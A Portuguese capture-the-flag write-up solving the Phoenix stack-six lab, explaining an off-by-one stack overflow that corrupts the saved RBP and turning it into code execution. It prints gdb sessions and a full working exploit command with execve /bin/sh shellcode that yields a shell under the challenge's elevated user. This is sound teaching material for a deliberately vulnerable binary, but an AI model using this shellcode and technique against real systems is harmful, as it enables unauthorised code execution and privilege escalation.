




# 💡 Dicas
Off-by-one BOF

# 🛸 Explicação
O programa aceita um nome por meio da env `ExploitEducation`! Esse nome é usado para gerar uma mensagem de boas vindas! \ 
Esse processo de gerar as mensagens é vulneravel a buffer overflow!
## Analisando o programa
### main
```C
int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```
Main começa definindo um pointer (`ptr`) e printando o banner

Em seguida, faz verificaçõs relacionadas à arquitetura do sistema usando o diretivo:
`#ifdef NEWARCH`. O diretivo `#ifdef NOME` checa se a macro chamda `NOME` existe.

Isso é usado para tornar o incio da mensagem de boas vindas (gerada por `greet`) ser dependente da arquitetura!

Por isso nos não a encontramos no codigo fonte! Mas caso usemos `strings` conseguimos encontra-las no binario:


Em seguida, main salva o valor da env var "ExploitEducation" no pointer ptr

Depois, é checado se ptr é NULL (a env var não existe)

Caso não exista: usa a função errx() para enterromper a execução com uma mensagem de erro! errx() recebe 2 argumento: (codigo_do_erro, mensagem_do_erro)

No nosso caso:
```C
  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    errx(1, "Please specify an environment variable called ExploitEducation");
  }
    // Codigo de erro: 1
   // Mensagem de erro: Por favor, especifique uma env var chamada ExploitEducation
```
Nos podemos confirmar isso usando: `echo $?`, que printa o codigo retornado pelo ultimo programa


> 0 = sem erro, 1 = erro

por ultimo, `greet()` é chamada, e o valor retornado por ela é printado!

E o programa finaliza retornando `0` (sem erro)!

#### Dica
Para definir uma env var no gdb



> set environment ExploitEducation=ABC
### greet
```C
char *greet(char *who) { // who = nome da pessoa
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* garantir terminação com null */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);			// Inicio da mensagem de boas vindas
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}
```
Agora chega a parte vulneravel! D:

A função `greet` recebe um argumento: "who" (quem recebe a mensagem de boas vindas)

São definidas duas variaveis locais: `buffer[128]` e `maxSize` (tamanho maximo)

O tamanho de `who` é salvo em `maxSize`

> Lembrete: Buffers são terminados com um NULL byte, portanto um buffer[128] só armazena 127 letras!

Em seguida, é checado se `maxSize` é maior que o `tamanho(buffer) - 1` (-1 por causa no null byte final)

Caso seja maior, `maxSize` vai ser denifido como o `tamanho(buffer) - 1` (maxSize = 127)

> Portando, o limite de maxSize é 127

Essa é uma tentativa de prevenir o buffer overflow! Pois, só seriam copiados 127 bytes, impedindo o overflow D:

Mas aqui que entra o problema: essa contagem não leva em consideração o inicio da mensagem (`what`)! Aquele que era dependente da arquitetura :D

Então nos vamos acabar escrevendo fora do buffer! Aqui esta a parte do codigo que causa a vulnerabilidade
```C
strcpy(buffer, what); // what = incio da mensagem
strncpy(buffer, who, maxSize); // who = o valor de ExploitEducation! Quem recebe o oi :D
```
Nos ja sabemos como o `strcpy` funciona (você passa um buffer como alvo e o que vamos salvar nele, ignorando tamanho! 
Caso nos conseguissemos controlar what, poderiamos facilmente exploitar o programa)

str **N** cpy (`strncpy`) é similar a `strcpy`, mas recebe um terceiro parametro: tamanho!

Esse tamanho é limitado à 127 (limite de `maxSize`), então teoricamente não seria exploitavel :(

**Mas espera ai, ja tinha coisa naquele buffer!!! O inicio da mensagem!!!**

O tamanho do inicio é 34 bytes (na versão amd64)
```python
$ python3
>>> x = "Welcome, I am pleased to meet you "
>>> len(x)
34
```

Isso quer dizer que no buffer cabem 128, mas foram colocados **34 + 127**: Overflow!

Então se não fosse pelo inicio da mensagem, não seria exploitavel :D

Uma maneira de concertar essa vulnerabilidade seria: `strncpy(buffer, who, maxSize - sizeof(buffer))` (subtrair o tamanho atual)

## Analisando o programa (ASM)
### main
```x86asm
gef> disassemble main
push   rbp
mov    rbp,rsp                    ; Prologo
sub    rsp,0x20


mov    DWORD PTR [rbp-0x14],edi
mov    QWORD PTR [rbp-0x20],rsi
mov    edi,0x400878
call   0x400530 <puts@plt>        ; printar o banner


mov    edi,0x4008c2               ; o 1º argumento é "ExploitEducation"
call   0x400520 <getenv@plt>      ; Le as env vars e coloca "ExploitEducation" em rax


mov    QWORD PTR [rbp-0x8],rax    ; Pointer para rax
cmp    QWORD PTR [rbp-0x8],0x0    ; Compara esse pointer com 0x0 
                                  ; (Teoricamente "cmp rax, 0x0" tambem deveria funcionar,
                                  ; mas salvando nesse pointer, podemos usar o valor depois)

jne    0x4007dd <main+66>         ; Jump not equal (pular se a comparação anterior for diferente)
                                  ; Mas pular para onde? Para main+66 (logo depois da mensagem de erro)
                                  ; Ou melhor: Caso ExploitEducation esteja definida, nos não emitimos erro

Essa parte só executa caso ExploitEducation não exista {
        mov    esi,0x4008d8               ; 2º argumento
        mov    edi,0x1                    ; 1º argumento
        mov    eax,0x0                    ; Valor retornado por main
        call   0x400540 <errx@plt>        ; Enterrompe a execução e sai com erro
}


        0x4007dd <main+66>:
mov    rax,QWORD PTR [rbp-0x8]      ; Lembra daquele pointer que salvamos com o rax de getenv() ? 
                                    ; Coloca ele em rax de novo :D

mov    rdi,rax                      ; 1º argumento: rax (o valor da env ExploitEducation)
call   0x4006fd <greet>             ; Chama greet()
   
mov    rdi,rax                      ; 1º argumento: O valor que greet retornou (salvo em rax)
call   0x400530 <puts@plt>          ; Printa a mensagem de boas vindas para o terminal
   
   
mov    eax,0x0                      ; Valor retornado por main: 0 (sem erro)
leave                               ; Epilogo
ret    
```

Não é tão relevante analisar o assembly de greet para entender a vulnerabilidade, dado que temos o codigo fonte!

Mas caso queira, você pode analisar por conta própria e relacionar o ASM com o codigo fonte por treino :D

## Fuzz

Agora que sabemos que é possivel realizar o overflow, vamos ver o que é corrompido :D

Nos só podemos colocar 127 no bytes no input, pois se colocarmos mais o programa simplesmente vai remove-los: então **colocar 127 ou 200 teria o mesmo efeito!** :)

Primeiro, vamos encontrar aonde colocaremos nossos breakpoints
```x86asm
gef> disassemble greet 
Dump of assembler code for function greet:
   0x00000000004006fd <+0>:	push   rbp
   0x00000000004006fe <+1>:	mov    rbp,rsp		<---
   0x0000000000400701 <+4>:	push   rbx
   0x0000000000400702 <+5>:	sub    rsp,0xa8
.......
.......
   0x0000000000400798 <+155>:	pop    rbx
   0x0000000000400799 <+156>:	pop    rbp		<---
   0x000000000040079a <+157>:	ret    
End of assembler dump
```

Vamos colocar uma no incio de greet e uma no final! :D
```x86asm
gef> b *0x4006fe 
Breakpoint 1 at 0x4006fe

gef> b *0x40079a
Breakpoint 2 at 0x40079a
```
E vamos rodar com 127 As: 
--- 
Obs: 

> gef> set environment ExploitEducation=$(python -c "print 'A' * 127")

Deve ria funcionar, mas não funciona sei la por que :(

Então eu rodei em outro terminal!

> python -c "print 'A' * 127"

E dei Ctrl+shift+C Ctrl+shift+V

> gef> set environment ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

eita, overflow no tutorial XD ! O computador ta se revoltando!! 

Agora, vamos rodar o programa `r`. Quando ele chegar no `breakpoint 1` (inicio de greet), pode `analisar o frame` e ver `aonde o rbp de main foi salvo`!
```x86asm
gef> info frame
Stack level 0, frame at 0x7fffffffe590:
 rip = 0x4006fe in greet; saved rip = 0x4007e9
 called by frame at 0x7fffffffe5c0
 Arglist at 0x7fffffffe580, args: 
 Locals at 0x7fffffffe580, Previous frame's sp is 0x7fffffffe590
 Saved registers:
  rbp at 0x7fffffffe580, rip at 0x7fffffffe588                            <- aqui
```

Agora que nos sabemos o endereço de RIP e RBP, podemos checar seu valores:
```x86asm
endereço: valor

gef> x/xg 0x7fffffffe580            -> rbp
0x7fffffffe580:	0x00007fffffffe5b0
gef> x/xg 0x7fffffffe588            -> rip
0x7fffffffe588:	0x00000000004007e9
```
> Obs: o /xg é só para a formatação ficar legivel! Significa e**X**tra **G**rande (que é o tamanho do pointer na arquitetura amd64)!

Isso quer dizer que no inicio de greet, os valores do RIP e RBP salvos na stack são: `0x00000000004007e9` e `0x00007fffffffe5b0`

Agora vamos continuar a execução `c`, e ver se eles se alteram (lembrando greet é vulneravel)!

```x86asm
gef> c
---- output do gef ----
gef> x/xg 0x7fffffffe580             -> rbp
0x7fffffffe580:	0x00007fffffffe541
gef> x/xg 0x7fffffffe588             -> rip
0x7fffffffe588:	0x00000000004007e9
```
Eita! RBP foi alterado D:

> 0x00007fffffffe5**b0** --->  0x00007fffffffe5**41**

Isso quer dizer que nós conseguimos controlar o ultimos byte do rbp salvo! Esse ultimo byte constuma ser 
chamado de `LSB` (Least Significant Byte, Byte menos significante)

Assim, quer dizer que esse buffer overflow é um `BoF` que corrompe o `LSB`, ou como é mais conhecido: **off-by-one** (errado por um)!

Esse tipo de buffer overflow é bem comum: vão esquecer de que o buffer termina com um `0x00` e vão comparar o `input` com o `tamanho do buffer`,
 ao enves do `tamanho do buffer - 1`. Assim, permitindo que seja escrito 1 byte fora do buffer!

#### Curiosidade

Lembra que o texto no inicio do buffer varia de arquitetura para aquitetura? Isso acontece pois cada uma aloca as variaveis em uma posição,
 otimizam de maneira diferente, etcetc!

Muitas vezes um **off-by-one** não vai ser exploitavel, pois o byte que vem logo depois do buffer não nescessariamente é o rbp! 
 E esse é o nosso caso: existem outras variaveis dentro de greet!

Assim, quem desenvolveu o desafio nos fez o favor de colocar essa mensagem no inicio para compensar esse espaço!

Caso a mensagem fosse 1 byte maior, poderiamos controlar 2 bytes do rbp! Caso a mensagem fosse 1 byte MENOR, não conseguiriamos controlar o rbp! 

E caso a mensagem fosse 4 bytes a mais, como você pode imaginar, poderiamos controlar o RIP :D

...

E caso o programa nem cheque o input? Ai facilita bastante pra gente hehe :D ! É o caso do desafio passado!

Assim, esse desafio foi feito de uma maneira que vá nos ensinar como exploitar um **off-by-one** que nos da **execução de codigo**

Na vida real, caso não existisse essa mensagem, só conseguiriamos exploitar esse off-by-one caso o nosso buffer estivesse adjacente ao rbp, 
isto é: não existe nenhuma outra variavel, ou o buffer foi alocado na parte mais baixa da stack(Do lado do RBP)!
```
Nesse caso, nós nao conseguiriamos alterar RBP nem RIP,
portanto seria impossivel conseguir execução de codigo :(

O maximo que conseguimos fazer é corromper 1 byte de uma varivel!
._ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _  _ .
|    buffer      |   outras variaveis     | RBP | RIP | 
|_ _ _ _ _ _ _ _ |_ _ _ _ _ _ _ _ _ _ _ _ |_ _ _|_ _ _|

O impacto disso varia muito: não acontecer nada (mais comum), 
fazer o programa crashar, ou alterar um valor importante 
(por exemplo, aquela varivel poderia armazenar o seu saldo do banco hehe ;) )...
```

## Como ir de off-by-one para execução de codigo
Quando `main` chama `call greet`, ela `salva o seu rbp e rip` na stack!

Então esse rbp que estamos alterando é o `rbp de main`!

Quando greet retorna, main fica com o rbp errado!

Main vai ir ate o final da sua execução normalmente, na sua ultima instrução (`ret`) a magica acontece

### Ret com um RBP corrompido

resumindo, ret é um: `mov rsp rbp` (descer o rsp), `pop rbp` (desce o rsp 8 bytes (a stack diminui para valores maiores, então +8)), e `pop rip`  

Assim, caso mudemos o rbp para, por exemplo: 0x1234**56**, quando main retornar, o valor de 0x1234**56** vai para o rbp e o de 0x1234**64** (+8) para o rip

Portanto, precisamos achar um valor para colocar no rip que va apontar para codigo que controlamos, e apontar rbp para esse endereço **-** 8 :D

Então caso o pointer que precisamos esteja em 0x123456**78** e nos possamos controlar o ultimo byte do `rbp`: vamos colocar 0x123456**70** (-8) no `rbp`! 
E quando main retornar, o `valor salvo` em 0x123456**78** vai para o `rip` !

E se nos controlamos RIP, controlamos a execução :D


# 🔥 Exploit
Agora que sabemos o tipo de exploit que precisamos escrever, basta seguir os passos a seguir:
1. Descobrir que partes da memoria controlamos
2. Encontrar para que região podemos apontar rbp
3. Encontrar um pointer nessa região que aponte para a parte que controlamos
## O que controlamos?
Normalmente, nos controlamos o input e as env vars, nesse caso o input é passado pelas env vars... portanto podemos falar que a unica região da memoria que
controlamos são as env vars

E qual é essa região? Vamos encontrar :D

### Setup
As envs são diferentes dentro do gdb, nós podemos comparar usando 

```
Fora do gdb: env
Dentro do dbg: show environment
```

A diferença é: gdb adiciona `LINES` e `COLUMNS`. E altera `_` (o programa sendo executando nesse momento, esta definido como "/usr/local/bin/gdb")
```diff
user@phoenix-amd64$ diff /tmp/gdb /tmp/env
16,18c16
< _=/usr/local/bin/gdb
< LINES=33
< COLUMNS=168
---
> _=/usr/bin/env
```
Para concertar essa diferença, e garantir que todos endereços estão certos, basta executar dentro do gdb:
```
unset environment COLUMNS
unset environment LINES
set environment _=/opt/phoenix/amd64/stack-six

> Aviso: Se você sair do gdb elas vão resetar!
```

### Descobrir que partes da memoria controlamos
Colocando um breakpoint no inicio de main (`b *main`), vamos encontrar registers apontando para envs!


Escolhendo o menor endereço e printando!


> Dica: vale a pena conferir se aquele realmente é o incio das envs, no nosso caso é :D



Isso quer dizer que as envs estão de: 0x7fffffff**e817** (inclusivo) a 0x7fffffff**eff8** (exclusivo)

### Encontrar para que região podemos apontar rbp

Nesse caso é facil ne? Se nós só podemos alterar o LSB, podemos alterar o RBP: de 0x00007fffffffe5**00** (inclusivo) a 0x00007fffffffe5**ff** (inclusivo)

### Encontrar um pointer nessa região que aponte para a parte que controlamos

Agora vamos usar uma utilidade do gef chamada `memwatch`! Sempre que o gef printar aquele output gigante, vai adicionar a região da memoria especificada!
Voce vai estar "assistindo" aquela região da memoria! :D

Nos vamos executar `gef> memory watch 0x00007fffffffe500 32 qword`

> Uma qword são 8 bytes, assim, 32 qwords são 256 bytes

Agora, vamos ver quando main retorna, o que tem nessa região
```x86asm
gef> disassemble main
Dump of assembler code for function main:
....
   0x00000000004007f6 <+91>:	leave  
   0x00000000004007f7 <+92>:	ret

gef> b *0x00000000004007f7
```
Agora basta executar o programa ate chegar la (obs, se voce ainda ta naquele breakpoint de main, basta continuar (`c`))



Eita, bastante coisa!

Agora, entre esses endereços, precisamos encontrar um que tenha um **pointer que aponte para a região da memoria que controlamos!**

Pra facilitar isso, eu vou jogar todo o output do `memwatch` em um arquivo e usar `grep`

Todos os endereços da região que controlamos começam com `0x7fffffff`, então esse ja é um bom começo
```x86asm
$ cat /tmp/mem | grep "0x00007fffffff"
0x00007fffffffe500│+0x0000 0x0000000000000001
0x00007fffffffe508│+0x0008 0x00007ffff7db6d0f
0x00007fffffffe510│+0x0010 0x00007ffff7ffc948
0x00007fffffffe518│+0x0018 0x00000000000000a6
0x00007fffffffe520│+0x0020 0x00007fffffffe57f
0x00007fffffffe528│+0x0028 0x0000000000000001
0x00007fffffffe530│+0x0030 0x4141414141414141
0x00007fffffffe538│+0x0038 0x00007ffff7ffb300
0x00007fffffffe540│+0x0040 0x0000000000000000
0x00007fffffffe548│+0x0048 0x0000000000600c00
0x00007fffffffe550│+0x0050 0x000000000040079b
0x00007fffffffe558│+0x0058 0x0000000000000000
...
...
...
```
Isso reduz bastante, mas ainda não o suficiente: a gente precisa de `0x00007fffffff` no valor, e não no endereço

Para isso, podemos usar cut! Usando cut antes do grep nos estamos só levando os valores em consideração! Para facilitar, tambem podemos deixa-los em ordem crescente (sort)!
```x86asm
$ cat /tmp/mem | cut -d " " -f 2 | grep "0x00007fffffff" | sort
0x00007fffffffe541
0x00007fffffffe57f
0x00007fffffffe620
0x00007fffffffe628
0x00007fffffffe638
0x00007fffffffef10
```
as envs estão de: 0x7fffffff**e817** (inclusivo) a 0x7fffffff**eff8** (exclusivo)

O unico valor valido é **0x00007fffffffef10**, pois todos os outros são menores que 0x00007fffffff**e817** !

Agora, basta achar o endereço desse pointer! Portanto vamos tirar o cut :D
```x86asm
$ cat /tmp/mem | grep "0x00007fffffffef10"                     
0x00007fffffffe5c8│+0x00c8 0x00007fffffffef10
```
Porem, ainda tem um detalhe! Nos não queremos esse endereço no rbp! Nos queremos ele no rip!

Assim, nos vamos apontar RBP para o item de cima da lista! Ai quando main retornar (`pop rip`) o valor vai ser o correto!


Lembrando que, quando uma função retorna, o endereço 8 bytes maior que rbp, é onde o rip esta! Então por definir `rbp = 0x00007fffffffe5c0`, nos 
estamos definindo `rip = 0x00007fffffffe5c8` então nos temos `RIP -> 0x00007fffffffe5c8 -> 0x00007fffffffef10 -> env vars`

E você talvez voce esteja se perguntando, pra qual env var que RIP ta apontando?
```x86asm
gef> x/s 0x00007fffffffef10
0x7fffffffef10:	'A' <repeats 127 times>
```
Por sorte, justamente o inicio do nosso buffer! Então não precisa nem de NOP sled ate o shellcode

```
Se você quer continuar sozinhx, agora é sua hora de brilhar!
Dica: O valor que precisamos colocar no rbp salvo, por meio do overflow é: c0
Eu recomendo vc tentar encontrar ele por conta propria pois
pode variar de acordo com o seu computador (explicação em breve) :D
.
.
.
.
.
.
.
```
## Shellcode
Então o nosso exploit vai ficar: `shellcode+AAAAAAAAAAAA+c0`

Para testar isso, vou usar o truque do `0xcc`:
```x86asm
$ export ExploitEducation=$(python -c "print '\xcc' + 125 * 'A' + '\xc0'")
$ /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
Trace/breakpoint trap
```
Obs: eu separei a linha do "Welcome AAAAAA....AAA????" para caber na tela 

Isso quer dizer que conseguimos execução de codigo! lembrando que isso é muito fragil: uma alteração nas envs e o exploit quebra!

Nos podemos usar tecnicas como encontrar um pointer que esta numa localização fixa usando `ROPgadgets`, ou um `NOP sled`!

Porem, nesse desafio vamos focar em só fazer ele funcionar! Caso vc queira, pode aplicar as tecnicas ensinadas previamente para tornar o exploit melhor!

---
**Obs**

Mas por exemplo, caso executemos `./stack-six` ao enves de `/opt/phoenix/amd64/stack-six`, o exploit não funciona :(
```x86asm
$ ./stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
Segmentation fault
```

E por isso que, quando for ver outros tutoriais, talvez `c0` seja outro valor! Muito provavelmente essa diferença é causada pela env `LS_COLORS` 
(uma variavel **gigantesca** que lista as cores do terminal! 

Caso você utilize um terminal mais moderno (com emojis por exemplo) para entrar via ssh, pode haver uma diferença!

Mas você esta equipadx com o conhecimento para conseguir resolver e encontrar o valor correto, caso tenha mudado! :D

---

Agora, vamos usar um shellcode de verdade! Até achar um que funciona é tentativa e erro! Eu recomendo você procurar aqui: [shell-storm](http://shell-storm.org/shellcode/)

Para mim, [shellcode-806](http://shell-storm.org/shellcode/files/shellcode-806.php) costuma funcionar muito bem, e dessa vez funcionou perfeitamente! :D

Mas claro, você pode brincar com todos aqueles shellcodes: alterar a senha, criar um arquivo, ... o ceu é o limite! Ou talvez nem o ceu... ja que esse esse é um tutorial sobre quebrar limites hehehe :D

> AVISO: Esse tutorial é sobre quebrar o limite de buffers! Não tente quebrar o ceu, pois pode resultar em acidentes, quedas, ou as pessoas rirem de você socando o ar!

Mas bem, piadas sem graça a parte, o exploit ficou assim: SHELLCODE+99 * A+c0

> $ export ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'")
```x86asm
$ /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ id
uid=1000(user) gid=1000(user) euid=406(phoenix-amd64-stack-six) egid=406(pho
enix-amd64-stack-six) 
groups=406(phoenix-amd64-stack-six),27(sudo),1000(user)
```
obs: eu precisei colocar o primeiro comando numa caixinha diferente para caber na tela :/ Mas finge que é a mesma hehe :D

Ou caso você prefira tudo em um só comando, basta definir a env e executar de uma vez:

> ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'") /opt/phoenix/amd64/stack-six

Lembrando que a quantidade de As deve ser alterada para que `c0 seja o byte 127 (shellcode + AAAAAA + c0 = 127)`

Nesse caso, o shellcode tem 27 bytes: `27 + 99 As + 1 byte (c0) = 127`

Caso seu shellcode seja maior, basta reduzir os As respectivamente!

---
Finalmente! terminamos a parte da stack uhuuu

Esse stack-six foi beeeeem complicadinho! Então parabens por ter chegado ate aqui! :D

# 💫 Solução

> $ export ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'")
```x86asm
$ /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ id
uid=1000(user) gid=1000(user) euid=406(phoenix-amd64-stack-six) egid=406(pho
enix-amd64-stack-six) 
groups=406(phoenix-amd64-stack-six),27(sudo),1000(user)
```
obs: eu precisei colocar o primeiro comando numa caixinha diferente para caber na tela :/ Mas finge que é a mesma hehe :D

Ou caso você prefira tudo em um só comando, basta definir a env e executar de uma vez:

> ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'") /opt/phoenix/amd64/stack-six

